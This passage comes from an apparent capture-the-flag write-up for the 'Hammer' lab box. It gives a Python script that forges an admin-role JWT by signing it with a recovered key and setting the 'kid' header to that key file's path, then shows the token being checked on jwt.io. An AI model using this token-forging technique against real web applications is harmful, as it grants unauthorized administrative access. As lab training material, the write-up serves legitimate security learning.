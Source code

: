 We use a python script to create a token with admin role, we enter content line `4` and path of the secret line `10`. We also set the expiry date a little higher for us.

{% code title="craft\_token.py" overflow="wrap" lineNumbers="true" %}

```python
import jwt

# The secret key from /var/www/mykey.key
secret_key = "REDACTED"

# JWT header including 'kid'
header = {
    "typ": "JWT",
    "alg": "HS256",
    "kid": "/var/www/html/REDACTED.key"
}

# Payload with the 'admin' role
payload = {
    "iss": "http://hammer.thm",
    "aud": "http://hammer.thm",
    "iat": 1725193591,
    "exp": 1725199591,
    "data": {
        "user_id": 1,
        "email": "tester@hammer.thm",
        "role": "admin"
    }
}

# Encode the JWT with the specific header
token = jwt.encode(payload, secret_key, algorithm="HS256", headers=header)

# Print the generated token
print(token)
```

{% endcode %}

Running the script, we get a token, signed with the secret, located in the web root folder.

{% hint style="info" %}
It is possible that the brute force takes longer than the 180 seconds that the token lasts. Therefore, the script may not necessarily find the valid token during its execution. Another attempt must then be made.
{% endhint %}

<figure><img src="https://2148487935-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FoqaFccsCrwKo1CHmLRKW%2Fuploads%2FvJ5L9oUIuo04deVfSE6V%2Fgrafik.png?alt=media&#x26;token=45821697-d307-400f-9b88-108f28016a49" alt=""><figcaption></figcaption></figure>

Using `jwt.io`, we are able to confirm its new content.

<figure><img src="https://2148487935-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FoqaFccsCrwKo1CHmLRKW%2Fuploads%2F825urmY2Fu9PhmOJQNMs%2Fgrafik.png?alt=media&#x26;token=3bbf11d9-0124-43ee-996d-1642f4543fe3" alt=""><figcaption></figcaption></figure>
